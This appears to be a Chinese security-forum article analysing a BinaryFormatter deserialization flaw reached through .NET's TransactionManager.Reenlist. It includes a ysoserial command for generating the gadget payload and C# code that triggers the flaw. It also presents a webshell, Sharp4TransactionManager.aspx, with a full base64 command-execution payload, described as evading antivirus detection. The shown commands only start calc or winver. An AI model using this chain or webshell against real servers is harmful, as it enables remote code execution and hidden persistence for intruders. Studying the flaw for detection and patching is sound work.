




# .NET 分布式事务反序列化漏洞 - 先知社区

.NET 分布式事务反序列化漏洞

- - -

# 01 分布式事务反序列化

TransactionManager 类属于 System.Transactions 命名空间，用于协调和管理分布式事务，并提供了事务的创建、提交、回滚等操作，并允许数据库、消息队列等参与到分布式事务中。  
TransactionManager.Reenlist 是 TransactionManager 类的一个方法，用于在事务中某些情况下需要重新注册的参与者，通常用于事务在处理过程保持一致性。

## 1 漏洞利用

首先我们使用 Ysoserial.Net 生成基于 TextFormattingRunProperties 攻击链的攻击载荷，具体命令：ysoserial.exe -f BinaryFormatter -g TextFormattingRunProperties -o base64 -c calc，生成的攻击载荷

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122162029-1a8b878e-b8ff-1.png)

接着对 payload 进行解码得到二进制数据 serializedData，将额外的信息添加到之前的事务注册数据中，具体实现代码如下所示

```plain
byte[] serializedData = Convert.FromBase64String(payload);
byte[] newSerializedData = new byte[serializedData.Length + 5];     serializedData.CopyTo(newSerializedData, 5);
newSerializedData[0] = 1;
TestMe myTransactionEnlistment = new TestMe();
TransactionManager.Reenlist(Guid.NewGuid(), newSerializedData,  myTransactionEnlistment);
```

## 2 原理分析

Reenlist 方法通过创建一个 MemoryStream 对象来读取传入的序列化数据，然后使用 binaryReader 从流中读取一个 32 位整数值，并将其存储在变量 num 中，并且检查整数值是否为 1，也就是说第一位字节码必须是 1，因此在重组事务数据时使用了 newSerializedData\[0\] = 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122162121-3974a158-b8ff-1.png)

接着调用 oletxTransactionManager.ReenlistTransaction 方法，用于有效性检查和获取相关资源，便于重新注册事务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122162134-41193fd6-b8ff-1.png)

从图上调试显示进入核心方法“oletxResourceManager.Reenlist”，内部调用了 BinaryFormatter 格式化器 formatter，用于反序列化恢复事务对象信息，也因此加载恶意的攻击载荷触发了反序列化漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122162147-48c99cee-b8ff-1.png)

# 02 分布式事务 Webshell

在.NET 领域可以将这个漏洞修改成 Webshell，巧妙地利用了 base64 编码和 yso 生成的特性，成功实现了免杀。通过构造特定的 HTTP 请求，可以执行恶意命令，例如启动系统进程（如 winver），从而在目标服务器上执行攻击者所期望的操作。  
这个 Webshell 的用法相对简单，通过访问 Sharp4TransactionManager.aspx 页面，并携带执行命令的 con 参数，即可触发后台恶意代码的执行。具体的用法示例如下：

```plain
Sharp4TransactionManager.aspx?con=AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAtQU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIHdpbnZlciIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4L
```

通过执行这个请求，Webshell 会触发执行命令，从而启动了 winver 进程。这种新型的 Webshell 利用了一系列编码和技术手段，成功绕过了杀软的检测，呈现出一定的隐蔽性。
